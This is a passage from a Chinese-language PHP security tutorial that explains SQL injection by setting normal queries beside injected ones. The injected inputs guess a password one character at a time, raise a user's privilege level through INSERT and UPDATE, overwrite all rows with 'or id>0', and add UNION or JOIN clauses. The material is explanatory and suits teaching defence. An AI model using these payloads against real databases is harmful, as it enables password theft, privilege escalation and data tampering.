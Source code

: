 **(3)猜解某用户密码**

```
1 //正常语句  
2 $sql =”select * from phpben.com where user_name=’$username’ and pwd =’$pwd'”;  
3 //在密码输入框中输入“benwin’ and left(pwd,1)=’p’#”，则$sql是  
4 $sql =”select * from phpben.com where user_name=’ benwin’ and left(pwd,1)=’p’#’ and pwd =’$pwd'”;
```

如果运行正常则密码的密码第一个字符是p，同理猜解剩下字符。

**(4)插入数据时提权**

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

```
1 //正常语句，等级为1  
2 $sql = “insert into phpben.com (`user_name`,`pwd`,`level`) values(‘benwin’,’iampwd’,1) “;  
3 //通过修改密码字符串把语句变成  
4 $sql = “insert into phpben.com (`user_name`,`pwd`,`level`) values(‘benwin’,’iampwd’,5)#’,1) “;  
5 $sql = “insert into phpben.com (`user_name`,`pwd`,`level`) values(‘benwin’,’iampwd’,5)–  ‘,1) “;这样就把一个权限为1的用户提权到等级5
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

**(5)更新提权和插入提权同理**

```
1 //正常语句  
2 $sql = “update phpben set  `user_name` =’benwin’, level=1″;  
3 //通过输入用户名值最终得到的$sql  
4 $sql = “update phpben set  `user_name` =’benwin’,level=5#’, level=1″;  
5 $sql = “update phpben set  `user_name` =’benwin’,level=5–  ‘, level=1″;
```

**(6)恶意更新和删除**

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

```
1 //正常语句  
2 $sql = “update phpben set `user_name` = ‘benwin’ where id =1″;  
3 //注入后,恶意代码是“1 or id>0”  
4 $sql = “update phpben set `user_name` = ‘benwin’ where id =1 or id>0″;  
5 //正常语句  
6 $sql = “update phpben set  `user_name` =’benwin’ where id=1″;  
7 //注入后  
8 $sql = “update phpben set  `user_name` =’benwin’ where id>0#’ where id=1″;  
9 $sql = “update phpben set  `user_name` =’benwin’ where id>0– ‘ where id=1″;
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

**(7)union、join等**

```
1 //正常语句  
2 $sql =”select * from phpben1 where `user_name`=’benwin’ “;  
3 //注入后  
4 $sql =”select * from phpben1 where`user_name`=’benwin’ uninon select * from phpben2#’ “;  
5 $sql =”select * from phpben1 where`user_name`=’benwin’ left join……#’ “;
```
